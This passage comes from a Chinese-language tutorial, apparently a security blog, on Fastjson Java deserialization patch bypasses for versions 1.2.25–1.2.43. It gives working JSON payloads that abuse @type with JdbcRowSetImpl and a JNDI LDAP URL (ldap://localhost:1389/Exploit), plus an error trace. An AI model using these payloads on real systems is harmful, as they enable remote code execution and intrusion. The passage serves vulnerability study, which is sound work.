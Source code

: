 ![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/ReturnEXP.png)

## 0x05 1.2.25-1.2.42 补丁绕过

### EXP

EXP 是这样的

JSON

```
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://localhost:1389/Exploit", 
	"autoCommit":true
}
```

这里代码运行的逻辑是，如果还是按照我们的 EXP 写的话，Fastjson 会先行提取 `L` 和 `;`，也就是逻辑不准确，所以我们这里可以直接写两个来绕过。

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Success1242.png)

## 0x06 1.2.25-1.2.43 补丁绕过

### EXP

直接给出payload：

JSON

```
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
	"dataSourceName":"ldap://localhost:1389/Exploit",
	"autoCommit":true
}
```

关键PoC：`[com.sun.rowset.JdbcRowSetImpl`

如果我们一开始payload直接这样写是会报错的：

JSON

```
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:1389/Exploit",
	"autoCommit":true
}
```

报错信息如下，显示期待在42列的位置接受个”`[`“符号，而42列正好是第一个逗号”`,`”前一个位置：

```
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Exploit", "autoCommit":true}
```
